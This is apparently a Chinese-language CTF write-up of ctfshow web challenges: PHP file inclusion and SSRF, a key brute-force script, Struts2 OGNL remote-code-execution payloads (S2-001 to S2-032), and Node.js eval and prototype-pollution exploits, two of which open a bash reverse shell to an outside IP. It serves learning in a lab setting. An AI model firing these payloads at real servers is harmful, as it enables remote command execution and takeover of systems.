

# web

## AK赛
### 签到_观己
#lfi
```php
<?php

if(isset($_GET['file'])){
    $file = $_GET['file'];
    if(preg_match('/php/i', $file)){
        die('error');
    }else{
        include($file);
    }

}else{
    highlight_file(__FILE__);
}

?>
```

---
一开始怎么也做不出来,看了wp,日志文件包含,在ua头里写入shell,然后包含
### web1_观字
```php
<?php

#flag in http://192.168.7.68/flag
if(isset($_GET['url'])){
    $url = $_GET['url'];
    $protocol = substr($url, 0,7);
    if($protocol!='http://'){
        die('仅限http协议访问');
    }
    if(preg_match('/\.|\;|\||\<|\>|\*|\%|\^|\(|\)|\#|\@|\!|\`|\~|\+|\'|\"|\.|\,|\?|\[|\]|\{|\}|\!|\&|\$|0/', $url)){
        die('仅限域名地址访问');
    }
    system('curl '.$url);
}
```
url绕过,没想到是用`。`
### web2_观星

### web3_观图
```php
<?php

//$key = substr(md5('ctfshow'.rand()),3,8);
//flag in config.php
include('config.php');
if(isset($_GET['image'])){
    $image=$_GET['image'];
    $str = openssl_decrypt($image, 'bf-ecb', $key);
    if(file_exists($str)){
        header('content-type:image/gif');
        echo file_get_contents($str);
    }
}else{
    highlight_file(__FILE__);
}
?>
```

爆破脚本
```php
<?php
$image = "Z6Ilu83MIDw=";

for($i=0;$i<30000;$i++){
    $key = substr(md5('ctfshow'.$i),3,8);
    $str = openssl_decrypt($image, 'bf-ecb', $key);
    if(strpos($str,'jpg')|strpos($str,'png')|strpos($str,'gif')){
        echo 'key:'.$key;
        echo '<br>rand():'.$i;
        $a = openssl_encrypt("config.php","bf-ecb",$key);
        echo '<br>anser:'.$a;
        echo '<br>file:'.$str;
        break;      
    }
}

```

### badhack
[wp](https://blog.h4ck.fun/roarctf2020-writeup/)

## java

### web279

```
F12=>/S2-001/=>相关漏洞
```

*payload*

```java
%{
#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat","/proc/self/environ"})).redirectErrorStream(true).start(),
#b=#a.getInputStream(),
#c=new java.io.InputStreamReader(#b),
#d=new java.io.BufferedReader(#c),
#e=new char[50000],
#d.read(#e),
#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),
#f.getWriter().println(new java.lang.String(#e)),
#f.getWriter().flush(),#f.getWriter().close()
}
```


[[CTFShow 周末大挑战]]
### web280
使用Liqunkit 秒了,但是不知道原理,留个坑

---
### web281
`s2-007` 

*payload*
```java
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('env').getInputStream())) + '
```

### web282
`s2-008`

*payload*
```
?debug=command&expression=%23context%5b%22xwork.MethodAccessor.denyMethodExecution%22%5d%3dfalse%2c%23f%3d%23_memberAccess.getClass%28%29.getDeclaredField%28%22allowStaticMethodAccess%22%29%2c%23f.setAccessible%28true%29%2c%23f.set%28%23_memberAccess%2ctrue%29%2c%23a%3d@java.lang.Runtime@getRuntime%28%29.exec%28%22env%22%29.getInputStream%28%29%2c%23b%3dnew java.io.InputStreamReader%28%23a%29%2c%23c%3dnew java.io.BufferedReader%28%23b%29%2c%23d%3dnew char%5b50000%5d%2c%23c.read%28%23d%29%2c%23genxor%3d%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%2c%23genxor.println%28%23d%29%2c%23genxor.flush%28%29%2c%23genxor.close%28%29
```

### web283
`Struts2 showcase远程代码执行漏洞`


找一个接受了参数，参数类型是string的action
*payload*

```java
ip/ajax/example5.action?age=12313&name=(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=+new+java.lang.Boolean(false),+%23_memberAccess[%22allowStaticMethodAccess%22]=true,+%23a=@java.lang.Runtime@getRuntime().exec(%27whoami%27).getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[51020],%23c.read(%23d),%23kxlzx=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23kxlzx.println(%23d),%23kxlzx.close())(meh)&z[(name)(%27meh%27)]

```

### web284

`s2-012`

*payload*
```java
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}

```

### web285

`s2-013`

payload
```java
/link.action?a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec('id').getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println('dbapp%3D'%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D
```

### web286

`s2-015`

*payload*
```java
%24%7B%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%2C%23m%3D%23_memberAccess.getClass().getDeclaredField(%27allowStaticMethodAccess%27)%2C%23m.setAccessible(true)%2C%23m.set(%23_memberAccess%2Ctrue)%2C%23q%3D%40org.apache.commons.io.IOUtils%40toString(%40java.lang.Runtime%40getRuntime().exec(%27ls%27).getInputStream())%2C%23q%7D.action
```
但是命令里有`/`就执行不了命令...

### web287


`s2-016`

```java
default.action?redirect:%24%7B%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3Dfalse%2C%23f%3D%23_memberAccess.getClass().getDeclaredField(%22allowStaticMethodAccess%22)%2C%23f.setAccessible(true)%2C%23f.set(%23_memberAccess%2Ctrue)%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec(%22env%22).getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B5000%5D%2C%23c.read(%23d)%2C%23genxor%3D%23context.get(%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22).getWriter()%2C%23genxor.println(%23d)%2C%23genxor.flush()%2C%23genxor.close()%7D
```

### web288
`s2-019`

payload没打通,使用liqunkit打通了

### web289
`s2-029`

*payload*
```java
default.action?message=(%23_memberAccess['allowPrivateAccess']=true,%23_memberAccess['allowProtectedAccess']=true,%23_memberAccess['excludedPackageNamePatterns']=%23_memberAccess['acceptProperties'],%23_memberAccess['excludedClasses']=%23_memberAccess['acceptProperties'],%23_memberAccess['allowPackageProtectedAccess']=true,%23_memberAccess['allowStaticMethodAccess']=true,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream()))
```

### web290
`s2-032`

*payload*
```java
?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=id
```

### --直到297全是s2,先过

### 


## nodejs
### web334
审计代码我们已经知道了账号密码
```node
module.exports = {
  items: [
    {username: 'CTFSHOW', password: '123456'}
  ]
};
```

```node
var findUser = function(name, password){
  return users.find(function(item){
    return name!=='CTFSHOW' && item.username === name.toUpperCase() && item.password === password;
  });
};
```

需要满足这个函数,其中username不能为CTFSHOW,但是对比的时候是与传入参数.toUpperCase后的,使用小写绕过
### web335
#nodejs 
查看源码提示`/?eval=`
猜测eval();
执行任意代码`require("child_process").execSync("ls").toString()`

---
> 刚开始一直使用的是exec,但是执行不了命令
> require("child_process").exec() 方法是异步执行系统命令的方法，它不会阻塞当前进程，而是在命令执行完成后通过回调函数返回命令的输出结果。由于该方法是异步执行的，因此在执行命令时不会阻塞进程，但是需要使用回调函数来处理命令的输出结果
> 
> require("child_process").execSync() 方法是同步执行系统命令的方法，它会阻塞当前进程直到命令执行完成，并返回命令的输出结果。由于该方法是同步执行的，因此在执行较大的命令或输出大量数据时，可能会导致阻塞和占用大量的内存
> 
> 由于 require("child_process").exec() 方法是异步执行的，因此无法通过方法返回值来获取命令的输出结果。如果需要获取命令的输出结果，需要在回调函数中处理输出结果

就说嘛

其他payload

```node
require( 'child_process' ).spawnSync( 'ls', [ '/' ] ).stdout.toString()
require( 'child_process' ).spawnSync( 'cat', [ 'f*' ] ).stdout.toString()
require("child_process")['exe'%2B'cSync']('ls')
```

### web336

应该是过滤了`execSync`
```node
require("child_process").spawnSync( 'ls', [ '/' ] ).stdout.toString()
```

### web337
```node
var express = require('express');
var router = express.Router();
var crypto = require('crypto');

function md5(s) {
  return crypto.createHash('md5')
    .update(s)
    .digest('hex');
}

/* GET home page. */
router.get('/', function(req, res, next) {
  res.type('html');
  var flag='xxxxxxx';
  var a = req.query.a;
  var b = req.query.b;
  if(a && b && a.length===b.length && a!==b && md5(a+flag)===md5(b+flag)){
  	res.end(flag);
  }else{
  	res.render('index',{ msg: 'tql'});
  }
  
});

module.exports = router;
```

flag条件 `a && b && a.length===b.length && a!==b && md5(a+flag)===md5(b+flag)`

---
把数组这茬网了,当我们传入 `a[x]=1&b[x]=1`,后端接收到的数据为 `a={"x":"1"} b={"x":"1"}` 
拼接后如图


变为了`[object Object]flag`

### web338
```node
router.post('/', require('body-parser').json(),function(req, res, next) {
  res.type('html');
  var flag='flag_here';
  var secert = {};
  var sess = req.session;
  let user = {};
  utils.copy(user,req.body);
  if(secert.ctfshow==='36dboy'){
    res.end(flag);
  }else{
    return res.json({ret_code: 2, ret_msg: '登录失败'+JSON.stringify(user)});  
  }
  
  
});
```

```node
//递归拷贝对象的属性
function copy(object1, object2){
    for (let key in object2) {
        if (key in object2 && key in object1) {
            copy(object1[key], object2[key])
        } else {
            object1[key] = object2[key]
        }
    }
  }
```

关键点在污染secret的值,不会...

---
*payload*
```json
{"__proto__":{"ctfshow":"36dboy"}}
```

也就是执行了 `user.__proto__={"ctfshow":"36dbooy"}` ,污染了`Object`的ctfshow为"36dboy"
 
### web339

```diff
--- C:\Users\20925\Downloads\web338\routes\login.js
+++ C:\Users\20925\Downloads\web339\routes\login.js
@@ -2,6 +2,13 @@
 var router = express.Router();
 var utils = require('../utils/common');
 
+function User(){
+  this.username='';
+  this.password='';
+}
+function normalUser(){
+  this.user
+}
 
 
 /* GET home page.  */
@@ -12,7 +19,7 @@
   var sess = req.session;
   let user = {};
   utils.copy(user,req.body);
-  if(secert.ctfshow==='36dboy'){
+  if(secert.ctfshow===flag){
     res.end(flag);
   }else{
     return res.json({ret_code: 2, ret_msg: '登录失败'+JSON.stringify(user)});  

```

需要污染`ctfshow`的值为flag

在`/api`路由下新增了一个post方法
函数接收一个query参数并返回

```node
var express = require('express');
var router = express.Router();
var utils = require('../utils/common');


/* GET home page.  */
router.post('/', require('body-parser').json(),function(req, res, next) {
  res.type('html');
  res.render('api', { query: Function(query)(query)});

});

module.exports = router;
```


---

污染 query的值

```json
{"username":"admin","password":"admin","__proto__":{"query":"return global.process.mainModule.constructor._load('child_process').exec('bash -c \"bash -i >& /dev/tcp/115.236.153.174/16806 0>&1\"')"}}
```

然后post访问`/api` 

### web340

```node
router.post('/', require('body-parser').json(),function(req, res, next) {
  res.type('html');
  var flag='flag_here';
  var user = new function(){
    this.userinfo = new function(){
    this.isVIP = false;
    this.isAdmin = false;
    this.isAuthor = false;     
    };
  }
  utils.copy(user.userinfo,req.body);
  if(user.userinfo.isAdmin){
   res.end(flag);
  }else{
   return res.json({ret_code: 2, ret_msg: '登录失败'});  
  }
  
  
});
```

需要多级污染


```json
{"__proto__":{"__proto__":{"query":"return global.process.mainModule.constructor._load('child_process').exec('bash -c \"bash -i >& /dev/tcp/[vps-ip]/[port] 0>&1\"')"}}}
```



